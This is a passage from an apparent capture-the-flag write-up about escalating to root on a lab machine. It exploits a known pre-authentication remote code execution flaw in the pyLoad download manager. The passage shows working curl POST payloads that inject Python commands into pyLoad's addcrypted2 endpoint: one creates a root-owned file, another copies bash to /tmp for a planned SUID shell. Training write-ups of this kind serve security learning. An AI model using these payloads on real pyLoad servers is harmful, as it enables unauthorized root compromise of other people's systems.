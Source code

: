 ![pyLoad](/assets/images/2023/07/PC/pyLoad.png "pyLoad")

It was an instance of [pyLoad](https://pyload.net/), a download manager. I tried using the credentials I found earlier, they failed.

I checked for known vulnerabilities and found an [unauthenticated Remote Code Execution](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad).


I took the example request and ran it on the server to see if it worked.

```bash
sau@pc:/opt/app$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'

sau@pc:/opt/app$ ls -l /tmp/pwnd
-rw-r--r-- 1 root root 0 Jul  2 17:38 /tmp/pwnd
```

It did! And the file was owned by root. I modified the example to copy bash in `/tmp` and set the suid bit on it.

```bash
sau@pc:/opt/app$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"cp%20/bin/bash%20/tmp/\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 02 Jul 2023 17:40:03 GMT
Server: Cheroot/8.6.0

Could not decrypt key

sau@pc:/opt/app$ ls -l /tmp/bash
-rwxr-xr-x 1 root root 1183448 Jul  2 17:40 /tmp/bash

```